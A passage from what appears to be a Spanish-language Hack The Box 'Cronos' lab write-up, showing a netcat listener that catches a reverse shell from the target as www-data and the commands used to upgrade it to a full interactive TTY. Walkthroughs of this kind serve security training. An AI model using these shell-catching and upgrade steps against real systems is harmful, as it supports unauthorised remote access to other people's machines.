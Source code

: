 ![](/assets/images/htb-writeup-cronos/web12.png)

Ahora haremos un tratamiento de la **tty**

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.13] 55354
bash: cannot set terminal process group (1316): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@cronos:/var/www/admin$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
www-data@cronos:/var/www/admin$ export TERM=xterm
```
